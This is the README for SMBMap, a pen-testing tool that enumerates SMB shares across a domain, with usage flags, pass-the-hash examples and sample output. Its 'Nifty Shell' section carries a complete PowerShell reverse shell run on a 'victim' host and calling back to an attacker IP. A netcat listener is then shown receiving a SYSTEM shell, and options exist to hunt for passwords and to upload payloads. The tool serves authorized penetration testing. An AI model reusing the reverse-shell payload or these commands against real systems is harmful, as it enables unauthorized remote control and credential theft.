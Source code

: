 # SMBMap

SMBMap allows users to enumerate samba share drives across an entire domain. List share drives, drive permissions, share contents, upload/download functionality, file name auto-download pattern matching, and even execute remote commands. This tool was designed with pen testing in mind, and is intended to simplify searching for potentially sensitive data across large networks.

DOWNLOAD HERE: https://smbmap.googlecode.com/git/smbmap.py

Some of the features have not been thoroughly tested, so changes will be forth coming as bugs are found. I only really find and fix the bugs while I'm on engagements, so progress is a bit slow. Any feedback or bug reports would be appreciated. It's definitely rough around the edges, but I'm just trying to pack in features at the moment. Version 2.0 should clean up the code a lot….whenever that actually happens ;). Thanks for checking it out!! Planned features include --update (so you don't have to visit this page), actual logging, shadow copying ntds.dit automation (Win7 and up only..for now), other things….

You'll need Impacket to use this tool:

https://code.google.com/p/impacket/

## Features:
- Pass-the-hash Support
- File upload/download/delete
- Permission enumeration (writable share, meet Metasploit)
- Remote Command Execution

```
SMBMap - Samba Share Enumerator
Shawn Evans - Shawn.Evans@gmail.com

$ python smbmap.py -u jsmith -p password1 -d workgroup -h 192.168.0.1
$ python smbmap.py -u jsmith -p 'aad3b435b51404eeaad3b435b51404ee:da76f2c4c96028b7a6111aef4a50a94d' -h 172.16.0.20
$ cat smb_ip_list.txt | python smbmap.py -u jsmith -p password1 -d workgroup
$ python smbmap.py -u 'apadmin' -p 'asdf1234!' -d ACME -h 10.1.3.30 -x 'net group "Domain Admins" /domain'

-P      port (default 445), ex 139
-h      Hostname or IP
-u      Username, if omitted null session assumed
-p      Password or NTLM hash
-s      Share to use for smbexec command output (default C$), ex 'C$'
-x      Execute a command, ex. 'ipconfig /r'
-d      Domain name (default WORKGROUP)
-R      Recursively list dirs, and files (no share\path lists ALL shares), ex. 'C$\Finance'
-A      Define a file name pattern (regex) that auto downloads a file on a match (requires -R or -r), not case sensitive, ex "(web|global).(asax|config)"
-r      List contents of directory, default is to list root of all shares, ex. -r 'c$\Documents and Settings\Administrator\Documents'
-F      File content filter, -F "password" (requies admin access to execute commands, and powershell on victim host)
-D      Download path, ex. 'C$\temp\passwords.txt'
--upload-src    File upload source, ex '/temp/payload.exe'  (note that this requires --upload-dst for a destiation share)
--upload-dst    Upload destination on remote host, ex 'C$\temp\payload.exe'
--del       Delete a remote file, ex. 'C$\temp\msf.exe'
--skip      Skip delete file confirmation prompt
-q      Disable verbose output (basically only really useful with -A)
```

## Sample Output:

```
$ cat smb-hosts.txt | python smbmap.py -u jsmith -p 'R33nisP!nckl3' -d ABC
[+] Reading from stdin
[+] Finding open SMB ports....
[+] User SMB session establishd...
[+] IP: 192.168.0.5:445 Name: unkown                                            
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  READ, WRITE
        C$                                                      READ, WRITE
        IPC$                                                    NO ACCESS
        TMPSHARE                                                READ, WRITE
[+] User SMB session establishd...
[+] IP: 192.168.2.50:445        Name: unkown                                            
        Disk                                                    Permissions
        ----                                                    -----------
        IPC$                                                    NO ACCESS
        print$                                                  READ, WRITE
        My Dirs                                                 NO ACCESS
        WWWROOT_OLD                                             NO ACCESS
        ADMIN$                                                  READ, WRITE
        C$                                                      READ, WRITE

$ python smbmap.py -u ariley -p 'P@$$w0rd1234!' -d ABC -x 'net group "Domain Admins" /domain' -h 192.168.2.50
[+] Finding open SMB ports....
[+] User SMB session establishd...
[+] IP: 192.168.2.50:445        Name: unkown                                            
Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
abcadmin                  
The command completed successfully.
```

## Nifty Shell:

Run Powershell Script on Victim SMB Host

```
$ python smbmap.py -u jsmith -p 'R33nisP!nckle' -d ABC -h 192.168.2.50 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.153""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' 
[+] Finding open SMB ports....
[+] User SMB session establishd...
[+] IP: 192.168.2.50:445        Name: unkown                                            
[!] Error encountered, sharing violation, unable to retrieve output
```

## Attackers Netcat Listener

```
$ nc -l 4445
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
 nt authority\system
```
